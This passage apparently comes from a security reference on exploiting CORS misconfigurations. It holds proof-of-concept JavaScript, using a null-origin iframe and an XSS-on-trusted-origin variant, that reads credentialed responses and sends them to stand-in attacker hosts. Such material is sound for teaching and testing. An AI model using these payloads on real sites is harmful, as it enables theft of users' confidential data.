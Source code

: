#### Proof of concept

This can be exploited by putting the attack code into an iframe using the data
URI scheme. If the data URI scheme is used, the browser will use the `null`
origin in the request:

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

### Vulnerable Example: XSS on Trusted Origin

If the application does implement a strict whitelist of allowed origins, the
exploit codes from above do not work. But if you have an XSS on a trusted
origin, you can inject the exploit coded from above in order to exploit CORS
again.

```
https://trusted-origin.example.com/?xss=<script>CORS-ATTACK-PAYLOAD</script>
```

#### Proof of Concept
This POC requires that the respective JS script is hosted at `attacker-controlled.com`

```js
<script>
document.location = "https://trusted-subdomain.website-with-xss.com/?xss=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://website-with-xss.com/endpoint-with-confidential-data',true); req.withCredentials = true; req.send(); function reqListener() { location='https://attacker-controller.com?key='%2bthis.responseText; };%3C/script>";
</script>
```

### Vulnerable Example: Wildcard Origin `*` without Credentials

If the server responds with a wildcard origin `*`, **the browser does never send
the cookies**. However, if the server does not require authentication, it's still
possible to access the data on the server. This can happen on internal servers
that are not accessible from the Internet. The attacker's website can then 
pivot into the internal network and access the server's data without authentication.

```powershell
* is the only wildcard origin
https://*.example.com is not valid
```
